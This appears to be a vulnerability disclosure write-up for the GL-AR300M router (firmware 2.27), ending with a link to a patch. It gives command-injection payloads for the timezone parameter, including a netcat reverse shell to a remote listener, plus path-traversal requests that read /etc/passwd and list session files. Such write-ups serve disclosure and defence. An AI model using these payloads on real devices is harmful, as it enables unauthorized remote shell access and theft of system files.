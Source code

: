 ## Preparation  

Product: GL-AR300M  

Firmware version: 2.27

## Command Injection  

### Hijack HTTP Request  

The first time we start the device and login the web interface. Let's set the language and the timezone.  

![](images/img1.jpg)

![](images/img2.jpg)

Using Fiddle tool to capture the HTTP request:  

![](images/img3.jpg)

When we perform this action the login_cgi script takes the content of the timezone parameter and inserts it into the /tmp/TZ file:

![](images/img4.jpg)

### Request Forgery  

#### login_cgi  

If we try to insert a value not present in the list of timezones, the script blocks us:  

![](images/img6.png)

![](images/img7.png)

![](images/img5.jpg)

We can bypass this and write on TZ file what we want, using this payload:  

```  
|echo+TEST||a+#'+ ||a #
```

![](images/img8.jpg)

Replace the payload with:  

```  
|echo+TEST||a+#'+|echo `cat /etc/passwd` ||a #
```

![](images/img11.jpg)

So I can execute the command. On my remote machine, I am listening the port "12345" via `nc -lvp 12345`. Now, let's replace the payload with netcat. 

```  
nc 192.168.17.130:12345 -e /bin/ash
```

![](images/img9.jpg)

For now, I have got the router's shell on my remote machine.  

![](images/img10.jpg) 

#### download_file and storage_cgi  

The device allows to share on the net the files present inside a storage usb
devie and to download them. If we try to download */etc/passwd*, the webserver
responde with Access Denied, we can bypass it.  

```  
Request:

GET /cgi-bin/download_file?/mnt/../etc/passwd HTTP/1.1 Host: 192.168.8.1

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.8.1/html/index
Cookie: CGISID=vaomgcy7QvTH489XvcDDAF7Futt5wTEPHHl5nMiZjGBvs
DNT: 1
Connection: close

Upgrade-Insecure-Requests: 1

Response:

HTTP/1.1 200 OK
Content-Disposition: attachment; filename="passwd"
Content-Length: 244
Connection: close
Date: Tue, 10 Apr 2018 06:46:37 GMT
Server: lighttpd/1.4.37

root:x:0:0:root:/root:/bin/ash daemon:*:1:1:daemon:/var:/bin/false ftp:*:55:55:ftp:/home/ftp:/bin/false network:*:101:101:network:/var:/bin/false nobody:*:65534:65534:nobody:/var:/bin/false dnsmasq:x:453:453:dnsmasq:/var/run/dnsmasq:/bin/false
```  

```  
Request:

GET /cgi-bin/storage_cgi?id=2&pwd=/tmp&_=1547210779015 HTTP/1.1 Host: 192.168.8.1

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.8.1/html/
X-CSRF-TOKEN: ZHjIIUi6ei3geAYQwxAS8dVh22YB7CfQ
X-Requested-With: XMLHttpRequest
Cookie: CGISID=IecOqfnvsoSS9VZgCUvLOLcBnxQTTYRbqCjqhxyMTjAE6
 
DNT: 1
Connection: close

Response:

HTTP/1.1 200 OK
Content-Type: application/json

Connection: close
Date: Tue, 10 Apr 2018 06:34:25 GMT
Server: lighttpd/1.4.37
Content-Length: 1500

{
"success":	true,
"result":	["d|60B|2018-04-10 06:29:24|usr||0", "d|40B|2018-04-10 06:29:24|opkg-
lists||0", "-|0B|2018-04-10
05:11:08|cgisess_69Bs22vGSj7L1B3wEiyZnipdBGSanm3cVU4DJTGZeYqtv||0", "-|0B|2018-04-

10	05:11:00|cgisess_Jj51sTfdhr831oncm7dPfliDV4jiDl2mIFU8z13jW9BUo||0", "-|0B|2018-04-10 05:10:56|cgisess_E23BuWFvOiDQhYByw9umQyD8RXqsiDxbw8lvsBoctqymH||0", "-|0B|2018-04-10 05:10:53|cgisess_r9ln53fqGyeIDIq3D7pAX57615hqHM8A9PXB4pp37LYDU||0", "-|38B|2018-04-10 05:10:45|cgisess_A7RQlphzApjq2xBQevZpRh9qI4BLVRw7srFw32rBmrC4S||0", "-|86KB|2018-04-10 05:09:30|luci-indexcache||0", "d|780B|2018-04-10 05:21:25|luci-modulecache||0", "d|300B|2018-04-10 06:29:24|www||0", "-|47B|2018-04-10 04:18:49|cgisess_IecOqfnvsoSS9VZgCUvLOLcBnxQTTYRbqCjqhxyMTjAE6||0", "d|60B|2018-04-10 06:29:40|nmbd||0", "-|32B|2018-04-10 04:12:50|resolv.conf||0", "d|40B|2018-04-10 04:12:49|dnsmasq.d||0", "-|50B|2018-04-10 06:33:05|dhcp.leases||0", "d|60B|2018-04-10

04:12:48|lib||0", "d|80B|2018-04-10 04:12:51|etc||0", "d|40B|2018-04-10 04:13:14|dropbear||0", "d|80B|2018-04-10 04:12:48|hosts||0", "-|5B|2018-04-10 06:15:03|TZ||0", "-|0B|2018-04-10 04:12:24|resolv.conf.auto||0", "d|280B|2018-04-10 04:17:26|.uci||0", "d|40B|2018-04-10

04:12:24|tmp||0", "d|140B|2018-04-10 04:12:53|log||0", "d|40B|1970-01-01 00:00:09|overlay||0", "d|80B|1970-01-01 00:00:06|sysinfo||0", "d|60B|2018-04-10 04:12:45|state||0", "d|360B|2018-04-10 06:30:23|lock||0", "d|320B|2018-04-10 06:29:40|run||0", "d|40B|2018-04-10 04:13:10|shm||0"]

}
``` 

## Patch of Security Vulnerability  

You can apply the [Patch of Security Vulnerability](https://github.com/kysonlok/notes/tree/master/openwrt/rce/dist).
